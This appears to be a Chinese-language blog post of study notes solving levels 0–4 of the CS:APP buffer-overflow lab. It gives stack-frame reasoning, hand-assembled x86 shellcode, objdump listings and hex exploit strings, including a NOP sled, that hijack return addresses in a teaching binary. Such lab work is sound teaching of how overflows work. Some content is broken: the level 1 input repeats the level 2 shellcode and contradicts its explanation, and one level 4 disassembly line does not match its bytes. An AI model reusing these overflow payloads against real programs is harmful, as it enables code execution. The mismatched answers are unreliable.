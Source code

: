 ```yaml
---
title: buffer lab
date: 2021-04-25 10:19:56
tags:
	csapp
---
```


buff lab 学习记录

<!--more-->

### level 0

由`getbu`f中的`0x08048fe6 <+6>: lea -0xc(%ebp),%eax`可知buf所在的地址为`%ebp-0xc`，由栈帧的结构可知`getbuf`中的返回地址保存在`%ebp+4`中，所以输入16个字节后输入的内容为smoke的地址`0x08048e20`

输入的内容为`64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 20 8e 04 08    `



### level 1

如同level 0，在`%ebp+4`(写入fizz的地址`0x08048dc0`，当推出getbuf函数后`%ebp`指向源`%ebp+8`,在fizz中执行完`push %ebp`后%ebp为源`%ebp+4`，根据`fizz 0x08048dc7 <+7>: mov 0x8(%ebp),%ebx`可知，val保存在源`%ebp+12`，所以在填完fizz的地址后4个字节开始数据cookie的值`0x113e5eb1`

输入的内容为`c7 05 dc a1 04 08 b1 5e 3e 11 68 60 8d 04 08 c3 2c b6 ff ff`



### level 2

`0x804a1dc`为global的地址，buf的地址为`0xffffb62c`，通过在buf处填入代码，再通过修改eip来使得getbuf return后返回buf处执行代码，其中填充的恶意代码为

```
movl $0x113e5eb1,0x804a1dc
pushl $0x08048d60
ret
```

意思为将global的值设为cookie，将bang函数的地址` $0x08048d60`压入栈，ret后返回bang函数处执行。
恶意代码地址为buf的地址：`0xffffb62c`
生成机器代码:

```
gcc -m32 -c l2_code.S
objdump -d l2_code.o > l2_code.d
```

l2_code.d中的内容为

```
00000000 <.text>:
0: c7 05 dc a1 04 08 b1 movl $0x113e5eb1,0x804a1dc
7: 5e 3e 11
a: 68 60 8d 04 08 push $0x8048d60
f: c3 ret
```

在l2.txt中填入`c7 05 dc a1 04 08 b1 5e 3e 11 68 60 8d 04 08 c3 2c b6 ff ff`



### level 3

跳到12行，要满足两个条件(1)local == 0xdeadbeef(2)val==cookie。由于使用了volatile关键字声明local，所以读local会直接从内存中读取而不是寄存器中读取，所以当函数执行完getbuf()返回test时%ebp必须和原来的相同，且getbuf返回cookie。
通过gdb查看test()中ebp的值为0xffffb658，getbuf返回后执行的下一条指令的地址为0x0804901e
插入的恶意代码为:

```
movl $0x113e5eb1,%eax
movl $0xffffb658,%ebp
pushl $0x0804901e
ret
```

最后生成l3_code.d中的内容为

```
Disassembly of section .text:

00000000 <.text>:
0: b8 b1 5e 3e 11 mov $0x113e5eb1,%eax
5: bd 58 b6 ff ff mov $0xffffb658,%ebp
a: 68 1e 90 04 08 push $0x804901e
f: c3 ret
```

输入:

```
b8 b1 5e 3e 11 bd 58 b6 ff ff 68 1e 90 04 08 c3 2c b6 ff ff
```



### level 4

通过反汇编查看getbufn函数的代码得到buf的首地址位于`%ebp-0xc`,直接试探buf首地址

buf的初始地址范围为`0x556835f8 ~ 0x556836a8`

testn函数的反汇编代码得到testn函数的ebp指针的内容为`testn当前%esp+0x28`

getbufn()返回后执行的下一行指令地址为`0x08048e3a`

l4_code.d内容：

```
Disassembly of section .text:

00000000 <.text>:
0: a1 08 d1 04 08 mov $0x804d1081,%eax
5: 8d 6c 24 28 lea 0x28(%esp),%ebp
9: 68 3a 8e 04 08 push $0x8048e3a
e: c3 ret
```



输入：

```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 
a1 08 d1 04 08 8d 6c 24 28 68 3a 8e 04 08 c3 b8 32 68 55
```

